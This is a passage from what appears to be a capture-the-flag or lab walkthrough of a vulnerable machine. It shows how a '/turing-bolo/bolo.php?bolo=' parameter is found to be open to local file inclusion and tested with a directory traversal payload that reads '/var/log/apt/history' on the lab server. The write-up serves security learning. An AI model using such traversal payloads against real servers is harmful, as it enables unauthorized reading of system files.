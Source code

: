 Go to `http://192.168.56.102:3000/lua/flows_stats.lua`, there is a url `/turing-bolo/`.

![](images/4.png)

There are content at file case.log via url `http://192.168.56.102/turing-bolo/bolo.php?bolo=case`

![](images/5.png)

### Local File Inclusion

Web application auto add `.log` after the provided value.
I find some log in the Kali Machine to trying access it in the server with payload `bolo=../../../../../../var/log/apt/history`

``` bash
┌──(Hades㉿192.168.56.110)-[4.6:23.8]~/scripting
└─$ find / -name *.log 2> /dev/null
<snip>
/var/log/apt/history.log
/var/log/dpkg.log
```
